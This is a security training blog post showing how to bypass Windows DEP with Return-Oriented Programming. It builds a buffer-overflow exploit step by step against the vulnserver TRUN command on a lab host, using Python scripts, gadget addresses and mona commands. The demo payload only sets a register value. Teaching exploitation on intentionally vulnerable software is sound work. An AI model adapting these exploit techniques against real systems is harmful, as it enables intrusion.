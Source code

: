 :page-slug: bypassing-dep/
:page-date: 2020-08-24
:page-category: attacks
:page-subtitle: Running instructions by reference
:page-tags: osee, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330681/blog/bypassing-dep/cover_lrfinv.webp
:page-alt: Photo by Michael Dziedzic on Unsplash
:page-description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[last blog entry],
we made an introduction to what `DEP` (Data Execution Protection) is
and how it affected common buffer overflow exploits.

In this post, we will show a way to bypass `DEP` using Return-Oriented
Programming or `ROP`.

== Return-Oriented Programming (ROP)

When we are writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode).
We then place a shellcode on the stack,
which is finally executed when the `JMP ESP` is performed.

When we perform a `JMP ESP` (or any other general-purpose register),
the program expects to find *instructions* in the address pointed to `ESP`.
With `DEP`, we can't execute instructions on the stack,
but we still control the execution flow.

But what would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. In other words, `RETN` expects to find
in the address pointed to `ESP`, a *pointer to an instruction*,
not an *instruction* itself.

As we control the execution flow and also can write on the stack, we can
do whatever we want. Let's find a `RETN` instruction first:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find up to 10 `RETN` instructions. The result is:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/retn1_gtil26.webp[RETN instructions]

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post]. This time we want to make `EAX`
have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop1_z13yrk.gif[RETN]

Here's a detail of what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look carefully at the value pointed by `ESP`: `EE05C031`.
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed,
that value `EE05C031` is stored on `EIP`.

What it means is that we can replace the `EE05C031` bytes with an arbitrary
pointer that will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer in the execution environment that performs the
first (`xor eax,eax`) operation:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/find1_it5idv.gif[RETN]

We could find one at `62501162` that points to a `xor eax,eax`.
Let's update our exploit and place that address instead of
the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop2_aacijn.gif[ROP]

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem with that. If you look again at the animation,
the execution flow was diverted to the location on where the `xor eax,eax`
instruction was placed, but then we lost control.

We need to make `EAX = 0xdeadbeee`. There are several ways to do that. We
tried with `xor eax,eax -> add eax,0xdeadbeee` but another way to do it
is to place the value `0xdeadbeee` on top of the stack and then perform a
`pop eax`. We also need to regain control of the execution flow. This can be
done by returning to the stack, so we can execute the last
instruction on our shellcode `inc eax` and make `EAX = 0xdeadbeef`.
That means that we need to find an address to a `pop eax` instruction
followed by a `retn`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/popeax1_ikidee.gif[POP EAX]

Bingo! We found it at `625011B4`. Now, do you see why this is called
Return-Oriented Programming? It is because we always need to return back to
the stack to fetch the next pointer to our next desired instruction.
For the record, any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax # retn` gadget relies on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/popeax2_has6yi.gif[POP EAX]

Beautiful! We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find an `inc eax` pointer to make `EAX = 0xdeadbeef`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/inceax_zeq83l.webp[INC EAX]

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330680/blog/bypassing-dep/rop3_gkn3oz.gif[ROP]

Success! We were able to make `EAX = 0xdeadbeef` without executing a single
instruction on the stack! We have bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us, `mona` has made this task easy.
You just need to issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` to do the hard work:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330687/blog/bypassing-dep/mona1_wj7c6p.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
a proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex. I won't spoil
the next blog entry, but ROP chains will be used later in a more
link:../vulnserver-trun-rop/[serious exploitation].

== Conclusions

In this article, we could see a way to bypass the Data Execution Protection
on a modern Windows system. However, the shellcode used here was very basic
and was only for demonstrating the fact that `DEP` can be bypassed.
We will use ROP to create something more complex in the
link:../vulnserver-trun-rop/[next post].
